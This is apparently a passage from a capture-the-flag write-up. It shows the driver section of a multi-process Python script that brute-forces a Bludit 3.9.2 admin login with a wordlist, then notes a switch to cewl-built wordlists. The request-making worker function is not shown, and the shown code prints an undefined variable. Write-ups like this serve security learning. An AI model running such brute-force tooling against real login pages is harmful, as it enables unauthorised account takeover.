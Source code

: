 ```python
        p.join()


if __name__ == '__main__':
    if len(sys.argv) != 4:
        print('Usage: python3 bludit-3.9.2-bruteForce-multi http://<ip> <username> </path/to/wordlist>')
        sys.exit()

    host = sys.argv[1]
    login_url = host + '/admin/login'
    username = sys.argv[2]
    wordlist = sys.argv[3]
    threads = 10
    passwords = file_to_list(wordlist)

    cred_queue = multiprocessing.Queue()
    success_queue = multiprocessing.Queue()
    procs = []

    print('Starting {0} worker threads.'.format(threads))
    for i in range(threads):
        p = multiprocessing.Process(target=worker,
                                    args=(cred_queue, success_queue))
        procs.append(p)
        p.start()

    print('Loading credential queue.')
    for pwd in passwords:
        cred_queue.put((pwd))

    # Print any successful credentials
    while not success_queue.empty():
        login_url, username, pwd = success_queue.get()
        print('SUCCESSFUL LOGIN at {0}: {1}/{2}'.format(login_url, username, word))
```

After writing my python brute-force program based off the one in the POC, I loaded it with `rockyou.txt` and let it run. After it ran most of the day and didn't get any results, I decided to try another direction. Since the site had plenty of text on it I decided to run `cewl` against it to build a custom wordlist. I also included all of the pages I had enumerated with `dirbuster`.
